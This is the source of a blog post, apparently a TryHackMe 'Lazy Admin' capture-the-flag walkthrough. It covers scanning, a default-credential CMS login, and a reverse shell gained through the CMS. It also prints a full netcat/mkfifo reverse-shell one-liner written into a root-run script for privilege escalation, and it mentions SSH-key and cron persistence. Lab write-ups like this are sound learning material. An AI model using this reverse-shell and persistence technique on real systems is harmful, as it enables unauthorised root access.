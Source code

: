 ```yaml
---
layout: post
title:  "Lazy Admin THM"
image: ''
date:   2023-04-12 00:01:00
tags:
- thm
description: ''
categories:
- Learn Hacking 
---
```

<img src="/assets/img/sharding-gerenciamento-usuarios/servers.gif">

## Scanning

nmap scan

<img src="/assets/img/thm_pics/lazy_admin_nmap_init.png">

gobuster scan

<img src="/assets/img/thm_pics/lazy_admin_gobuster.png">

Looking into `/content/` we find a website. Running gobuster again we find some interesting sides e.g. a admin login portal.

## Access

Looking for default credentials for the side we are quite lucky and can login

<img src="/assets/img/thm_pics/lazy_admin_login.png">

We can also use `searchsploit` to further find interesting vulnerabilties for the cms solution

<img src="/assets/img/thm_pics/lazy_admin_searchsploit.png">

We also found some sql credentials

<img src="/assets/img/thm_pics/lazy_admin_sql_creds.png">

We can abuse the ad function to get a shell one the server

<img src="/assets/img/thm_pics/lazy_admin_rev_shell_login.png">

## Priv Esc

Running `sudo -l` we are quite suprised since we can run `/usr/bin/perl` as root. Digging a bit deeper we can see that there is a backup script which runs `/etc/copy.sh`. We check if we can write into the file and indeed we can. There is no editor and we have to use echo to overwrite the script. 


{% highlight bash %}
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 5554 >/tmp/f' >/etc/copy.sh
{% endhighlight %}


<img src="/assets/img/thm_pics/lazy_admin_priv_esc.png">

For persistence we could include our ssh key into the `/root/.ssh/aut_key` and include a cronjob. 

## Learnings

1. Do not rely on any assumption. Try out more or less everything which you think makes sense!
2. Have a very close look on the findings you have and test them!
3. Use searchsploit to search for exploits


